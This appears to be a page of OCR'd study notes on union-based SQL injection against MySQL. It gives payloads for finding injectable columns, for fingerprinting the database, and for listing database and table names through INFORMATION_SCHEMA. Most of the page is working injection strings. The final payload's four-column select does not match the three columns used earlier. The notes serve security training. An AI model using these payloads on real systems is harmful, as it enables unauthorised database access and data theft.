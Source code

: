 ```sql
cn' UNION select 'a',NULL,NULL-- -
cn' UNION select NULL,'a',NULL-- -
cn' UNION select NULL,NULL,'a'-- -
```

In this case, the payload can be injected in column 2, 3.

# **Database Enumeration**

## **MySQL Fingerprinting**

 The following queries and their output will tell us that we are dealing with `MySQL`:

| Payload | When to Use | Expected Output | Wrong Output |
| --- | --- | --- | --- |
| `SELECT @@version` | When we have full query output | MySQL Version 'i.e. `10.3.22-MariaDB-1ubuntu1`' | In MSSQL it returns MSSQL version. Error with other DBMS. |
| `SELECT POW(1,1)` | When we only have numeric output | `1` | Error with other DBMS |
| `SELECT SLEEP(5)` | Blind/No Output | Delays page response for 5 seconds and returns `0`. | Will not delay response with other DBMS |

## Database, Tables and Column Enumeration

> The INFORMATION_SCHEMA database contains metadata about the databases and tables present on the server.
> 

> The table SCHEMATA in the `INFORMATION_SCHEMA` database contains information about all databases on the server. It is used to obtain database names so we can then query them.
> 

> The `SCHEMA_NAME` column contains all the database names currently present.
> 

**Payload**

```sql
cn' UNION select NULL,'a',NULL-- -
```

**Enumerating database**

```sql
cn' UNION select NULL,schema_name,NULL from INFORMATION_SCHEMA.SCHEMATA-- -
```

**Find out which database the web application is running**

```sql
cn' UNION select NULL,database(),NULL from INFORMATION_SCHEMA.SCHEMATA-- -
```

**TABLES**

```sql
cn' UNION select NULL,TABLE_NAME,TABLE_SCHEMA,NULL from INFORMATION_SCHEMA.TABLES where table_schema='<DATABASE_NAME>'-- -
```
